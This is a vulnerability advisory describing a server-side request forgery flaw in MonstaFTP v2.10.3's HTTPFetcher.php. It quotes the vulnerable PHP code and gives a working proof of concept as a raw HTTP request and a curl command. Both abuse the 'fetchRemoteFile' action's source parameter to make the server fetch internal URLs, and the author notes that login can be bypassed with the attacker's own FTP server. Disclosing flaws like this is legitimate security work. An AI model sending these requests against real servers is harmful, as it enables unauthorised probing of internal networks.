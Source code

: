 # SSRF vulnerability in `performFetchRequest` Function of `HTTPFetcher.php` File (MonstaFTP v2.10.3 version)

## 0x01 Affected version

vendor:  https://www.monstaftp.com/

version:  v2.10.3

php version: 7.2.x

## 0x02 Vulnerability description

The vulnerable code is located in the `performFetchRequest` function of the `application/api/file_fetch/HTTPFetcher.php` file, which does not perform sufficient checksum on the source parameter, leading to a taint from the `$context['source']` variable and enters the tainted function `curl_setopt`, which sends a request to the URL specified by the source parameter after the `curl_exec` function is executed, eventually leading to an SSRF vulnerability.

Although the vulnerability requires login authentication verification, but because the FTP/SFTP login here is able to login to our own FTP server, so the login field can pass the verification as long as it is set, so as to take advantage of the SSRF vulnerability. So it is equivalent to pre-authentication SSRF, which is more harmful!

```php
private function performFetchRequest() {
    $fp = fopen($this->tempSavePath, 'w+');
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $this->fetchRequest->getURL());
    curl_setopt($ch, CURLOPT_FILE, $fp);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
    curl_setopt($ch, CURLOPT_HEADERFUNCTION, array(&$this->fetchRequest, 'handleCurlHeader'));
    $success = @curl_exec($ch);
    $curlError = @curl_error($ch);
    $effectiveUrl = curl_getinfo($ch, CURLINFO_EFFECTIVE_URL);
    $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);

    curl_close($ch);
    fclose($fp);
```

Because the `source` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows

```
POST /application/api/api.php HTTP/1.1
Host: 172.16.119.130
Content-Length: 275
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://172.16.119.130
Referer: http://172.16.119.130/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

request={"connectionType":"sftp","configuration":{"host":"172.16.119.130","remoteUsername":"zero","initialDirectory":"/tmp/","authenticationModeName":"Password","password":"123456","port":22},"actionName":"fetchRemoteFile","context":{"source":"http://172.16.119.1/flag.txt"}}
```

![image-20220524105307486](./MonstaFTP_v2_10_3_SSRF.assets/image-20220524105307486.png)



You can also use the following curl command to verify the vulnerability

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.130' -H $'Accept: application/json, text/plain, */*' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Connection: close' -H $'Content-Length: 275' \
    --data-binary $'request={\"connectionType\":\"sftp\",\"configuration\":{\"host\":\"172.16.119.130\",\"remoteUsername\":\"zero\",\"initialDirectory\":\"/tmp/\",\"authenticationModeName\":\"Password\",\"password\":\"123456\",\"port\":22},\"actionName\":\"fetchRemoteFile\",\"context\":{\"source\":\"http://172.16.119.1/flag.txt\"}}' \
    $'http://172.16.119.130/application/api/api.php'
```

## 0x03 Acknowledgement

z3
